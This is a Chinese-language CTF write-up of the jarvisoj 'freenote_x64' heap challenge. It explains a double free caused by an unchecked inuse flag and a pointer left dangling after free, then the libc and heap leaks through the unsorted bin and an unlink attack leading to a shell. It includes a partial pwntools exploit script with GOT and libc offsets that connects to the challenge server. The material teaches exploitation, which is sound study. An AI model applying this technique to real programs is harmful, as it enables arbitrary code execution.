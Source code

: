 - 最短的函数之一,也是漏洞点的所在
- 程序并没有check堆块是否inuse,而且free后指针没有置空,所以就导致了我们可以通过double free来进行攻击
  
# 攻击过程

- 要进行攻击,必须获得程序中的一些基址,也就是在程序真正运行时的一些偏移,这里可以采用unsorted bin leak来leaklibc的基址,同样我们利用free后再次malloc,也可以获得上次相同的堆块,随后我们可以利用形成的双链表的fd bk来获取libc和heap的基址
- 由于程序中并没有溢出的存在,又不能生成fastbin,这里考虑从堆块错位下手,然后利用未置空的指针来进行double free
- 具体过程是先leak堆和libc的基址,然后全部free后,malloc4块空间依次free,随后申请一个大的堆块,正好包含起来所有的小堆块,构造unlink后随后free之前修改过的指针的已free堆块,控制指针,随后getshell

# exp

- 首先add四个堆块,然后依次free index为0和2的堆块,0处就会出现main_arena的真实地址,我们获得了libc基址,2处因为无法合并就会出现双向链表,同样泄露了heap的地址
- 全部free后,利用堆块错位和double free构造unlink
- 三次malloc(128)以后内存依次free后内存中应该是下面的样子
  
```
-----+--------------------
0x00 | head   size
0x10 | data   data
.... | data   data
0x80 | data   data
-----+--------------------
0x90 | head   size
0xa0 | data   data
.... | data   data
0x110| data   data
-----+--------------------
0x120| head   size
0x130| data   data
.... | data   data
0x1a0| data   data
--------------------------
```

- 之后编辑堆块构造unlink
- 放出完整exp

```python
from pwn import *


r = remote("pwn2.jarvisoj.com",9886)
# r = process("./freenote_x64",env={'LD_PRELOAD':'./libc-2.19.so'})
got_atoi = 0x602070
libc_mainarena = 0x3BE760
libc_system = 0x46590

def show():
    r.sendlineafter("choice: ","1")

def new(text):
    r.sendlineafter("choice: ","2")
    r.sendlineafter("new note: ",str(len(text)))
    r.sendafter("your note: ",text)

def edit(index,text):
    r.sendlineafter("choice: ","3")
    r.sendlineafter("Note number: ",str(index))
    r.sendlineafter("Length of note: ",str(len(text)))
    r.sendafter("your note: ",text)

def free(index):
```